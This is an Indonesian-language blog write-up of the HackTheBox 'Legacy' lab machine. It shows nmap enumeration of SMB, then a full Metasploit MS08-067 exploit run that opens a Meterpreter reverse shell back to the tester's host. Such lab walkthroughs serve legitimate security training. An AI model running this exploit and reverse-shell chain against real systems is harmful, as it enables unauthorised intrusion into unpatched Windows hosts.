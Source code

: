 ```yaml
---
featured_image: "/uploads/justakazh/1-jwuxdkhigs_t4yzkvmpx8q.png"
author_description: Aku nulis karena aku pelupa
author_avatar: "/uploads/justakazh/1656477958868.jpeg"
author_facebook: https://facebook.com
author_twitter: https://twitter.com
author_instagram: https://instagram.com
author_donation: paypal / saweria / buymecoffe / etc
author_web: https://blog.hackstreet.id
title: HackTheBox - Legacy
date: 2022-12-24T17:00:00.000+07:00
author: Justakazh
tags:
- '455'
- hacking
- smb
- netapi
- windows
- easy
- hackthebox
- writeup
categories: capture the flag

---
```

## Summary

Machine Name    : Legacy

Machine Author  : [ch4p]([Hack The Box](https://app.hackthebox.com/users/1))

Machine Difficult : Easy

Machine URL        : [Hack The Box](https://app.hackthebox.com/machines/2)



## NMAP Enumeration

Melakukan pengecheckan terhadap port yang umum

```bash
└─$ sudo nmap 10.129.227.181 
[sudo] password for punktester: 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-14 05:47 HST
Nmap scan report for 10.129.227.181
Host is up (0.20s latency).
Not shown: 997 closed tcp ports (reset)
PORT    STATE SERVICE
135/tcp open  msrpc
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

```

Melakukan pengecheckan versi yang digunakan terhadap port yang terbuka

```bash
┌──(punktester㉿kali)-[~/…/ctf/htb/easy/legacy]
└─$ nmap -sV 10.129.227.181 -p135,139,445  
Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-14 05:48 HST
Stats: 0:00:18 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 33.33% done; ETC: 05:48 (0:00:12 remaining)
Nmap scan report for 10.129.227.181
Host is up (0.20s latency).

PORT    STATE SERVICE      VERSION
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Microsoft Windows XP microsoft-ds
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.62 seconds
zsh: segmentation fault  nmap -sV 10.129.227.181 -p135,139,445

```

> Mesin tersebut menggunakan sistem operasi windows xp. 

## 445 - SMB

saya tertarik dengan port 445 yang dimana port ini digunakan untuk Server Message Block (SMB). selanjutnya saya melakukan searching terkait potensi kerntanan pada sistem tersebut, saya mendapat sebuah artikel yang menarik tentang exploitasi pada windows xp 



https://www.rapid7.com/db/modules/exploit/windows/smb/ms08_067_netapi/ 



disini saya akan mencoba melakukan exploitasi port tersebut dengan menggunakan modul metasploit **exploit/windows/smb/ms08_067_netapi** (Microsoft Server Service Relative Path Stack Corruption) Modul ini mengeksploitasi kekurangan parsing pada path kanonikalisasi dari kode NetAPI32.dll melalui Layanan Server. Modul ini juga mampu melewati NX pada beberapa sistem operasi dan paket layanan.

```bash
msf6 exploit(windows/smb/ms08_067_netapi) > options

Module options (exploit/windows/smb/ms08_067_netapi):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOSTS   10.129.227.181   yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT    445              yes       The SMB service port (TCP)
   SMBPIPE  BROWSER          yes       The pipe name to use (BROWSER, SRVSVC)


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.14.15      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Targeting


msf6 exploit(windows/smb/ms08_067_netapi) > run

[*] Started reverse TCP handler on 10.10.14.15:4444 
[*] 10.129.227.181:445 - Automatically detecting the target...
[*] 10.129.227.181:445 - Fingerprint: Windows XP - Service Pack 3 - lang:English
[*] 10.129.227.181:445 - Selected Target: Windows XP SP3 English (AlwaysOn NX)
[*] 10.129.227.181:445 - Attempting to trigger the vulnerability...
[*] Sending stage (175174 bytes) to 10.129.227.181
[*] Meterpreter session 1 opened (10.10.14.15:4444 -> 10.129.227.181:1042 ) at 2022-10-14 06:12:08 -1000

meterpreter > sysinfo
Computer        : LEGACY
OS              : Windows XP (5.1 Build 2600, Service Pack 3).
Architecture    : x86
System Language : en_US
Domain          : HTB
Logged On Users : 1
Meterpreter     : x86/windows
meterpreter > 
```

disini saya berhasil mendapatkan akses server tersebut dengan memanfaatkan celah MS08-067.